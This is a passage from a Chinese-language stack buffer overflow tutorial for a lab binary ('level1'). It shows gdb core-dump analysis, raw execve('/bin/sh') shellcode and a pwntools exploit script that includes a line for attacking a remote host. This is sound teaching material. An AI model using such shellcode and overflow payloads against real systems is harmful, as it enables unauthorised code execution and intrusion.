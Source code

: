 ```bash
    ulimit -c unlimited
    sudo sh -c 'echo "/tmp/core.t%t" > /proc/sys/kernel/core_pattern'
```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

![Alt](img/x86_ROP4.png)

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为`$esp-144`。通过gdb的命令 `x/10s $esp-144`，我们可以得到buf的地址为`0xffffd500`

![Alt](img/x86_ROP5.png)

至此，溢出点，shellcode，返回地址都有了，可以利用pwntools写exp了。在本地测试成功后只需简单修改一条语句就可以马上进行远程攻击。

```python
    p = process('./level1')     # 本地测试
    p = remote('172.17.0.2',10001)  # 远程攻击
```

最终的测试脚本：

```python
    #!/usr/bin/python
    from pwn import *

    p = process('./level1')
    ret = 0xffffd500

    # execve("bin/sh")
    # xor ecx,ecx
    # mul ecx
    # push ecx
    # push 0x68732f2f   ;hs//
    # push 0x6e69622f   ;nib/
    # mov ebx,esp
    # mov al,11
    # int 0x80

    shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
    shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
    shellcode += "\x0b\xcd\x80"

    # p32(ret) == struct.pack("<I",ret)
    # 对ret进行编码，将地址转换成内存中的二进制存储形式

    payload = shellcode + 'A'*(140 - len(shellcode)) + p32(ret)

```